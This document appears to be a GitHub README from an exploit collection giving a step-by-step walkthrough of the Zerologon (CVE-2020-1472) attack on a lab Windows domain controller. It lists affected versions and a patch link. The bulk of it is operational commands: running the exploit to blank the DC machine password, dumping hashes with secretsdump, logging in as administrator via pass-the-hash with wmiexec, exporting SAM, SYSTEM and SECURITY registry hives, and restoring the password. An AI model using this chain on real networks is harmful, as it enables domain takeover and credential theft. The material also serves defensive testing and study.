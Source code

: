 ## CVE-2020-1472

#### Describe

An elevation of privilege vulnerability exists when an attacker establishes a vulnerable Netlogon secure channel connection to a domain controller, using the Netlogon Remote Protocol (MS-NRPC), aka 'Netlogon Elevation of Privilege Vulnerability'.

#### ImpactVersion

| Product             | CPU Architecture | Version | Update | Tested             |
| :------------------ | :--------------- | ------- | ------ | ------------------ |
| Windows Server 2008 | x64              | R2      | SP1    | &#10004; |
| Windows Server 2012 |                  |         |        |                    |
| Windows Server 2012 |                  | R2      |        |                    |
| Windows Server 2016 |                  |         |        |                    |
| Windows Server 2019 |                  |         |        |                    |
| Windows Server      |                  | 1903    |        |                    |
| Windows Server      |                  | 1909    |        |                    |
| Windows Server      |                  | 2004    |        |                    |
| Windows Server      |                  | 20H2    |        |                    |

#### Patch

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1472
```

#### Utilization

> 注意：EXP脚本会重置域控机器的密码！！！不要瞎鸡儿乱用！！！！！！！！

Test system Windows Server 2008 R2 SP1 X64 ，And set the environment to domain control machine

![image-20201002201920794](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2020-1472_dc-server.png)

As you can know above:

- Domain->ascotbe.com
- Computer name->dc
- Domain control IP->192.168.183.171

Using the previous environment configuration, you need a version of Python3.7 +, if you have previously installed the python packet installed` Impacket`(Such as Kali) Need to uninstall the package, shortcut statement that reinstalls `0.9.21`,`python3 -m pip install git+https://github.com/SecureAuthCorp/impacket`，Below is a general method

```
python3 -m pip install -r Kernelhub.txt
#If you discard the download slow project, you can use it.
git clone --depth=1 https://github.com/SecureAuthCorp/impacket
```

> Scan script

This script is used to test whether the machine has a vulnerability

```
#Usage: CVE-2020-1472_Scan.py <dc-name> <dc-ip>
python3 CVE-2020-1472_Scan.py dc 192.168.183.171
```

![image-20201002203037104](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2020-1472_scan.png)

> Use script

The script will reset the password to empty! ! It is easy to control the loss! !

```
#Usage: CVE-2020-1472_Exploit.py <dc-name> <dc-ip>
python3 CVE-2020-1472_Exploit.py dc 192.168.183.171
```

![image-20201002204223509](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2020-1472_exp.png)

Then enter the downloaded `impacket` project, log in with an empty password

```
cd impacket/examples/
#Usage: secretsdump.py <dc>/<dc-name>\$@<dc-ip>
python3 secretsdump.py ascotbe.com/dc\$@192.168.183.171 -no-pass
```

![image-20201002203751057](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2020-1472_secretsdump.png)

Then use HASH to log in

```
#Usage: wmiexec.py -hashes <user-hash> <dc>/<user-name>@<dc-ip>
python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:45280efa2300182b4f7fdc2cee182149  ascotbe.com/administrator@192.168.183.171
```

![image-20201002204817764](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2020-1472_wmiexec.png)

> Restore password

After saving your password, download to the local, then delete the file on the domain control.

```
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
get system.save
get sam.save
get security.save
del system.save
del sam.save
del security.save
```

![image-20201002205958192](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2020-1472_hash.png)

Next to decrypt

```
python3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

![image-20201002210258903](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2020-1472_decrypt_hash.png)

You can see that this is the password before modifying, followed by back to the desktop using the script recovery password

```
#Usage: CVE-2020-1472_RestoreOriginalPassword.py <dc-name> <dc-ip> <dc-original-hash>
python3 CVE-2020-1472_RestoreOriginalPassword.py dc 192.168.183.171 d4ac5a73fd3f13dfd9d6de036a9e99a2
```

![image-20201002212122966](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2020-1472_restore_original_password.png)

#### Analyze
- https://xz.aliyun.com/t/8367
- https://www.freebuf.com/articles/system/249860.html
- https://www.freebuf.com/vuls/249813.html
- https://cert.360.cn/report/detail?id=2e904ef9ac96834a3dd7fc058cea4fe5

#### ProjectSource

- Scan script:[SecuraBV](https://github.com/SecuraBV/CVE-2020-1472)
- Use script:[dirkjanm](https://github.com/dirkjanm/CVE-2020-1472)
- Recovery script:[risksense](https://github.com/risksense/zerologon)